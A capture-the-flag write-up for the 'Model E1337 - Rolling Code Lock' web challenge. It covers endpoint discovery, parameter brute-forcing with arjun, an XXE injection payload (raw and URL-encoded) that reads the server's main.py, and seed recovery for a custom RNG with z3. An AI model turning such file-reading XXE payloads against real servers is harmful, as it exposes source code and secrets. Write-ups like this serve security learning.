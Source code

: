 # Model E1337 - Rolling Code Lock
When we start the challenge we have a page with an input box that ask a code to unlock something.
## Flag 0
We start a dir search on the endpoint and we find the `/admin` endpoint, inspecting the source code we see:
```html
<body>
		<h1>Admin Panel</h1>
		<p>Lock location: <input type="text" name="location" value="Front door" disabled=""></p>
		<!-- We should be using get-config for this on the client side. -->
</body>
```
The hint is clear we have to see the `/get-config` endpoint, that give us and XML configuration file.
```xml
<body>
    <config>
        <location>Front door</location>
    </config>
</body>
```
I struggle a bit to understand how to proceed, but testing around I find that calling the endpoint `/set-config` gives back a Bad Request error.
So I try to brute force the params:
```batch
 arjun -u htp://xxx.xxx.xxx.xxx/xxxxx/set-config 
    _
   /_| _ '
  (  |/ /(//) v2.1.41
      _/

[*] Probing the target for stability
[*] Analysing HTTP response for anamolies
[*] Analysing HTTP response for potential parameter names
[*] Logicforcing the URL endpoint
[✓] name: data, factor: http code
```
Passing the data params seems to work, we have an XXE injection.
I try to understand the filesystem with many files and in the and I found the `main.py` in the same folder, and in the comment we have the first flag.
```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY file SYSTEM "main.py" > ]><config><location>&file;</location></config>
```
Request urlencoded:
```
http://xx.xxx.xx.xxx/xxxxx/set-config?data=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C%21DOCTYPE%20foo%20%5B%20%3C%21ENTITY%20file%20SYSTEM%20%22main.py%22%20%3E%20%5D%3E%3Cconfig%3E%3Clocation%3E%26file%3B%3C%2Flocation%3E%3C%2Fconfig%3E
```
## Flag 1
It's a flask server and we have an import to another file `rng.py` where we find how the generation of the random value work.
I try I bit to understand the logic behind the generation.
```python
def setup(seed):
        global state
        state = 0
        for i in range(16):
                cur = seed & 3
                seed >>= 2
                state = (state << 4) | ((state & 3) ^ cur)
                state |= cur << 2

def next(bits):
        global state

        ret = 0
        for i in range(bits):
                ret <<= 1
                ret |= state & 1
                state = (state << 1) ^ (state >> 61)
                state &= 0xFFFFFFFFFFFFFFFF
                state ^= 0xFFFFFFFFFFFFFFFF

                for j in range(0, 64, 4):
                        cur = (state >> j) & 0xF
                        cur = (cur >> 3) | ((cur >> 2) & 2) | ((cur << 3) & 8) | ((cur << 2) & 4)
                        state ^= cur << j

        return ret

setup((random.randrange(0x10000) << 16) | random.randrange(0x10000))
```


We have 32 bit seed and a 64 bit state that is used to generate the next pseudo-random value.
I decide to try with symbolic resolution with z3. 
After modifying a bit the code I start to produce 1 error values and are use it to reconstruct the seed, but it's seems that it's not enought.
Restarting the challenge and trying with 2 values we get the flag.
All the code is in the `x.py` file.

